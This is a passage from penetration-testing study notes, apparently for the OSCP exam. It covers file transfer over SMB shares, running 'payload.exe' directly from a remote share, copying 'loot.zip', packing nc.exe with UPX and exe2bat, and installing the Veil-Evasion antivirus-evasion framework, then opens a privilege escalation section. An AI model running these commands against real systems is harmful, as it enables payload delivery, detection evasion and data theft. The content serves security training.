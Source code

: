 - Confirm it is up and running using Net View on the Windows command line:

  ```CMD
  C:\Users\Null>net view \\192.168.0.49
  Shared resources at \\192.168.0.49

  (null)

  Share name  Type  Used as  Comment

  -------------------------------------------------------------------------------
  smbshare    Disk
  The command completed successfully.
  ```

- Then we can trasnfer files from the command line as if it were a normal folder:

  ```CMD
  C:\Users\Admin>dir \\192.168.0.49\smbshare 
  C:\Users\Admin>copy \\192.168.0.49\smbshare\loot.zip .
  ```

- By far the most interesting feature of the SMB Share method is that you can execute files directly over the SMB Share without copying them to the remote machine (fileless execution is so hot right now):
  `C:\Users\Admin>\\192.168.0.49\smbshare\payload.exe`

- A fancy trick I learned from IPPSec is to create a mapped drive to a remote SMB share like so:

  ```CMD
  net use y: \\192.168.0.49\smbshare  
  y: 
  dir
  ```
### Packing Files

- Ultimate Packer for eXecutables  
  - `upx -9 nc.exe`

- exe2bat - Converts EXE to a text file that can be copied and pasted  
  - `locate exe2bat`  
  - `wine exe2bat.exe nc.exe nc.txt`

- Veil - Evasion Framework - <https://github.com/Veil-Framework/Veil-Evasion>  
    
    ```shell
    apt-get -y install git  
    git clone <https://github.com/Veil-Framework/Veil-Evasion.git>  
    cd Veil-Evasion/  
    cd setup  
    setup.sh -c
    ```

## Linux Privilege Escalation

Password reuse is your friend.  The OSCP labs are true to life, in the way that the users will reuse passwords across different services and even different boxes. Maintain a list of cracked passwords and test them on new machines you encounter.**
